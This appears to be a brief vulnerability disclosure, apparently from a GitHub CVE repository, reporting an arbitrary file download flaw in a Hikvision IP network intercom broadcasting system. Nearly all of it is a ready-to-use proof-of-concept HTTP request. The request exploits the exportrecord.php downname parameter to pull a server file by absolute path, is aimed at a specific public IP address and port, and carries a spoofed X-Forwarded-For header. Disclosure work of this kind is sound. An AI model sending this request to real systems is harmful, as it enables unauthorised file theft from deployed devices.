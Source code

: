There is an arbitrary file download vulnerability in the IP network intercom broadcasting system of Hangzhou Hikvision Digital Technology Co., Ltd.

![image](https://github.com/willchen0011/cve/assets/13689053/e75b3a42-379f-4782-a89d-746bf3966dbc)

1. Directly download any file through the following POC
POC
```
GET /php/exportrecord.php?downtype=10&downname=C:\ICPAS\Wnmp\WWW\php\conversion.php HTTP/1.1
Host: 219.128.48.234:4080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 1.1.1.1
```
![image](https://github.com/willchen0011/cve/assets/13689053/71f31e14-2199-4219-93f7-23288b6cf6bb)
